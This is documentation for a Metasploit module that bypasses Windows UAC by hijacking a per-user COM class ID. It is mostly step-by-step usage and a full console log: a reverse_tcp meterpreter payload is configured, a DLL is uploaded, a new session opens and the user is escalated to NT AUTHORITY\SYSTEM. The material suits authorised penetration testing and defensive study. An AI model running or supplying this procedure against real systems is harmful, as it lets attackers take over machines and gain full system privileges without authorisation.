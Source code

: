 ## Intro

This module will bypass UAC on Windows 7 through to 10 RS3 by hijacking a COM Class ID
that is located in the current user hive. This key contains a reference to a DLL that
contains a chosen payload. Multiple COM vectors are defined in this module and one is
chosen at random at runtime.

The module modifies the registry in order for this exploit to work. The modification is
reverted once the exploitation attempt has finished.

This module requires that the payload architecture matches the target operating system
architecture. This is due to the fact that the underlying binaries that are invoked
match the system architecture.

If a custom DLL is to be used with `EXE::Custom`, that DLL must match the system
architecture, and should call `ExitProcess()` after starting the payload in a
different process.

## Usage

1. Create a session on the target system under the context of a local administrative user.
1. Begin interacting with the module: `use exploit/windows/local/bypassuac_comhijack`.
1. Set the `PAYLOAD` and configure it correctly, making sure the architecture is correct.
1. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
1. Make sure that the `SESSION` value is set to the existing session identifier.
1. Invoke the module: `run`.

## Scenarios

```
msf exploit(bypassuac_comhijack) > sessions

Active sessions
===============

  Id  Type                     Information                           Connection
  --  ----                     -----------                           ----------
  1   meterpreter x64/windows  DESKTOP-5A73R51\oj @ DESKTOP-5A73R51  xxx.xx.255.1:8443 -> xxx.xx.255.159:51474 (xxx.xx.255.159)

msf exploit(bypassuac_comhijack) > sessions -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-5A73R51
OS              : Windows 10 (Build 14393).
Architecture    : x64
System Language : en_AU
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows

meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 1...
msf exploit(bypassuac_comhijack) > options

Module options (exploit/windows/local/bypassuac_comhijack):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     xxx.xx.255.1     yes       The listen address
   LPORT     8443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(bypassuac_comhijack) > run

[*] [2017.08.16-12:58:31] UAC is Enabled, checking level...
[+] [2017.08.16-12:58:31] Part of Administrators group! Continuing...
[+] [2017.08.16-12:58:32] UAC is set to Default
[+] [2017.08.16-12:58:32] BypassUAC can bypass this setting, continuing...
[*] [2017.08.16-12:58:33] Targeting Event Viewer via HKCU\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931} ...
[*] [2017.08.16-12:58:33] Uploading payload to C:\Users\oj\AppData\Local\Temp\DJAyEYXA.dll ...
[*] [2017.08.16-12:58:33] Executing high integrity process ...
[*] [2017.08.16-12:58:34] Sending stage (1188415 bytes) to xxx.xx.255.159
[*] Meterpreter session 2 opened (xxx.xx.255.1:8443 -> xxx.xx.255.159:51480) at 2017-08-16 12:58:35 +1000
[*] [2017.08.16-12:58:38] Cleaining up registry ...
[!] [2017.08.16-12:58:39] This exploit may require manual cleanup of 'C:\Users\oj\AppData\Local\Temp\DJAyEYXA.dll' on the target
msf exploit(bypassuac_comhijack) > sessions

Active sessions
===============

  Id  Type                     Information                           Connection
  --  ----                     -----------                           ----------
  1   meterpreter x64/windows  DESKTOP-5A73R51\oj @ DESKTOP-5A73R51  xxx.xx.255.1:8443 -> xxx.xx.255.159:51474 (xxx.xx.255.159)
  2   meterpreter x64/windows  DESKTOP-5A73R51\oj @ DESKTOP-5A73R51  xxx.xx.255.1:8443 -> xxx.xx.255.159:51480 (xxx.xx.255.159)

msf exploit(bypassuac_comhijack) > sessions -1
[*] Starting interaction with 2...

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
